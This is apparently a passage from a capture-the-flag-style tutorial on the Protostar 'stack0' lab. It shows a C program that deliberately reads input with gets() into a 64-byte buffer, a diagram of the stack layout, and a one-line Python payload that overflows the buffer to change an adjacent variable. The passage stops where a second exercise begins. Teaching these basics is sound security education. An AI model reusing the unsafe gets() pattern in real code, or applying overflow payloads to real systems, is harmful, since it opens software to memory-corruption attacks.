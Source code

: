 This exercise illustrates how the stack variables are arranged and demonstrates the possibility of modifying outside the allocated memory in order to alter the execution of the program. Take as example the below code for this first exercise:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    modified = 0;
    gets(buffer);

    if(modified != 0) {
        printf("you have changed the 'modified' variable\n");
    } else {
        printf("Try again?\n");
    }
}
```

As you can see, we do not interact with the `modified` variable. Therefore the question is how to change this value? First, let's see what the stack contains at this precise moment:

```
[buffer (64 bytes)] [modified (4 bytes)] [saved ebp] [saved eip]
```

Since the `gets()` function does not check the size of our string, we have to ask ourselves where are the characters going if we exceed 64 bytes? The answer is simple, they go into what is next in the stack, so basically, they are added to the `modified` variable. We can, therefore, change this variable and validate the challenge. Our final payload to validate this challenge will therefore be:

```bash
cd /opt/protostar/bin/
python -c "print 'A' * 65" | ./stack0
you have changed the 'modified' variable
```

**Output**

![image-11](https://raw.githubusercontent.com/cybsploit/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-11.png "Image-11")

Perfect! You just made your first exploitation of a **Stack Overflow**! How do you feel?

* * *

###### SECOND EXERCISE "STACK ONE"

Well, let's move now on to the second exercise. Through the following example, we will understand even better the modification of the variables in the program, and how the variables are arranged in memory.
